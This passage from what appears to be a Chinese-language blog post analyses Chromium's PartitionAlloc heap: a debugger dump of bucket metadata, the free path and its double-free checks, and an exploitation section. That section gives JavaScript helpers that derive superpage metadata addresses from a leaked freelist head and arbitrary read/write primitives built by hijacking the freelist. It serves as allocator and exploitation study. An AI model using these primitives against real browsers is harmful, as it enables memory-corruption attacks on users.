      [112] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 131072
        numSystemPagesPerSlotSpan = 32
        numFullPages = 0
      }
      [113] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 147456
        numSystemPagesPerSlotSpan = 36
        numFullPages = 0
      }
      [114] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 163840
        numSystemPagesPerSlotSpan = 40
        numFullPages = 0
      }
      [115] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 180224
        numSystemPagesPerSlotSpan = 44
        numFullPages = 0
      }
      [116] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 196608
        numSystemPagesPerSlotSpan = 48
        numFullPages = 0
      }
      [117] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 212992
        numSystemPagesPerSlotSpan = 52
        numFullPages = 0
      }
      [118] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 229376
        numSystemPagesPerSlotSpan = 56
        numFullPages = 0
      }
      [119] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 245760
        numSystemPagesPerSlotSpan = 60
        numFullPages = 0
      }
      [120] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 262144
        numSystemPagesPerSlotSpan = 64
        numFullPages = 0
      }
      [121] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 294912
        numSystemPagesPerSlotSpan = 72
        numFullPages = 0
      }
      [122] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 327680
        numSystemPagesPerSlotSpan = 80
        numFullPages = 0
      }
      [123] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 360448
        numSystemPagesPerSlotSpan = 88
        numFullPages = 0
      }
      [124] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 393216
        numSystemPagesPerSlotSpan = 96
        numFullPages = 0
      }
      [125] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 425984
        numSystemPagesPerSlotSpan = 104
        numFullPages = 0
      }
      [126] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 458752
        numSystemPagesPerSlotSpan = 112
        numFullPages = 0
      }
      [127] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 491520
        numSystemPagesPerSlotSpan = 120
        numFullPages = 0
      }
      [128] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 524288
        numSystemPagesPerSlotSpan = 128
        numFullPages = 0
      }
      [129] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 589824
        numSystemPagesPerSlotSpan = 144
        numFullPages = 0
      }
      [130] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 655360
        numSystemPagesPerSlotSpan = 160
        numFullPages = 0
      }
      [131] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 720896
        numSystemPagesPerSlotSpan = 176
        numFullPages = 0
      }
      [132] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 786432
        numSystemPagesPerSlotSpan = 192
        numFullPages = 0
      }
      [133] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 851968
        numSystemPagesPerSlotSpan = 208
        numFullPages = 0
      }
      [134] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 917504
        numSystemPagesPerSlotSpan = 224
        numFullPages = 0
      }
      [135] = {
        activePagesHead = 0x0000000100014118
        emptyPagesHead = 0x0000000000000000
        decommittedPagesHead = 0x0000000000000000
        slotSize = 983040
        numSystemPagesPerSlotSpan = 240
        numFullPages = 0
      }
    }
  }
}
```

</details>

可以看到此时的结构才算真正初始化完成


### free

```
ALWAYS_INLINE void partitionFreeGeneric(PartitionRootGeneric* root, void* ptr)
{
#if defined(MEMORY_TOOL_REPLACES_ALLOCATOR)
    free(ptr);
#else
    ASSERT(root->initialized);

    if (UNLIKELY(!ptr))
        return;

    ptr = partitionCookieFreePointerAdjust(ptr);
    ASSERT(partitionPointerIsValid(ptr));
    PartitionPage* page = partitionPointerToPage(ptr);
    spinLockLock(&root->lock);
    partitionFreeWithPage(ptr, page);
    spinLockUnlock(&root->lock);
#endif
}
```

首先移动指针到cookie：

```
ALWAYS_INLINE void* partitionCookieFreePointerAdjust(void* ptr)
{
#if ENABLE(ASSERT)
    // The value given to the application is actually just after the cookie.
    ptr = static_cast<char*>(ptr) - kCookieSize;
#endif
    return ptr;
}
```

之后获得当前所在partitionpage地址：PartitionPage* page = partitionPointerToPage(ptr);

接下来就是重头戏了：

#### free的核心实现：

```
ALWAYS_INLINE void partitionFreeWithPage(void* ptr, PartitionPage* page)
{
    // If these asserts fire, you probably corrupted memory.
#if ENABLE(ASSERT)
    size_t slotSize = page->bucket->slotSize;
    size_t rawSize = partitionPageGetRawSize(page);
    if (rawSize)
        slotSize = rawSize;
    partitionCookieCheckValue(ptr);
    partitionCookieCheckValue(reinterpret_cast<char*>(ptr) + slotSize - kCookieSize);
    memset(ptr, kFreedByte, slotSize);
#endif
    ASSERT(page->numAllocatedSlots);
    PartitionFreelistEntry* freelistHead = page->freelistHead;
    ASSERT(!freelistHead || partitionPointerIsValid(freelistHead));
    RELEASE_ASSERT_WITH_SECURITY_IMPLICATION(ptr != freelistHead); // Catches an immediate double free.
    ASSERT_WITH_SECURITY_IMPLICATION(!freelistHead || ptr != partitionFreelistMask(freelistHead->next)); // Look for double free one level deeper in debug.
    PartitionFreelistEntry* entry = static_cast<PartitionFreelistEntry*>(ptr);
    entry->next = partitionFreelistMask(freelistHead);
    page->freelistHead = entry;
    --page->numAllocatedSlots;
    if (UNLIKELY(page->numAllocatedSlots <= 0)) {
        partitionFreeSlowPath(page);
    } else {
        // All single-slot allocations must go through the slow path to
        // correctly update the size metadata.
        ASSERT(partitionPageGetRawSize(page) == 0);
    }
}
```
其实也很简单，主要分为下面几个步骤：

- 检查两个cookie（如果有）
- memset清除用户区
- 取出当前的freelisthead
- 将取出的freelisthead存入自己的头部

注意这里对double free有两处check：

```
RELEASE_ASSERT_WITH_SECURITY_IMPLICATION(ptr != freelistHead); // Catches an immediate double free.

ASSERT_WITH_SECURITY_IMPLICATION(!freelistHead || ptr != partitionFreelistMask(freelistHead->next)); // Look for double free one level deeper in debug.
```
第一处是直接查看当前是否为double free：
```
free(a);
free(a);
```

第二处是进一步检查double free：
```
free(a);
free(b);
free(a);
```


至此free结束


### 利用(之后慢慢补充新遇到的)

##### 由freelisthead获得superpage信息：

```
function getSuperPageBase(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let superPageBaseMask = ~superPageOffsetMask;
    let superPageBase = addr & superPageBaseMask;
    return superPageBase;
}
 
function getPartitionPageBaseWithinSuperPage(addr, partitionPageIndex) {
    let superPageBase = getSuperPageBase(addr);
    let partitionPageBase = partitionPageIndex << BigInt(14);
    let finalAddr = superPageBase + partitionPageBase;
    return finalAddr;
}
 
function getPartitionPageIndex(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
    return partitionPageIndex;
}
 
function getMetadataAreaBaseFromPartitionSuperPage(addr) {
    let superPageBase = getSuperPageBase(addr);
    let systemPageSize = BigInt(0x1000);
    return superPageBase + systemPageSize;
}
 
function getPartitionPageMetadataArea(addr) {
    let superPageOffsetMask = (BigInt(1) << BigInt(21)) - BigInt(1);
    let partitionPageIndex = (addr & superPageOffsetMask) >> BigInt(14);
    let pageMetadataSize = BigInt(0x20);
    let partitionPageMetadataPtr = getMetadataAreaBaseFromPartitionSuperPage(addr) + partitionPageIndex * pageMetadataSize;
    return partitionPageMetadataPtr;
}
```

##### arbitrary read/write：




结合上面的图来做一个说明：

我们是可以通过slot span中泄漏出的freelisthead来找到对应的指向他所在的partitionpage的结构的地址的，所以我们通过修改bk的freelisthead为对应的metadata中的指针，这样就可以劫持metadata中指向partitionpage的结构，它的结构图中也有，我们控制它之后就相当于控制了freelisthead：

举个例子：
```
假设 0x12345678这个地址它存储了我们想要的内容

x/10gx 0x12345678

0x0: xxxxxxxxxxxx <- target 0x122112211221
0x10: .......
```
我们将freelisthead修改为0x12345678，在下次分配之后target就会作为新的freelisthead出现在我们劫持的metadata的结构中，读取该结构的freelisthead这样就相当于一个任意读，写的话就更简单了，直接写入就好。

```
freelist = new Uint32Array(2);//可以改写freelisthead
freelist.buffer;

function u64_to_arr(u64, arr) {
  arr[0] = u64.lo;
  arr[1] = u64.hi;
}

function read(addr, freelist) {
  u64_to_arr(addr, freelist); //改freelist为addr
  var b = new Uint32Array(2);
  b.buffer;
  junk.push(b);
  return arr_to_u64(freelist).bswap();
}

function write(addr, val, freelist) {
  u64_to_arr(addr, freelist); //改freelist为addr
  var rw = new Uint32Array(2);
  rw.buffer;
  u64_to_arr(val, rw);
  junk.push(rw);
}
```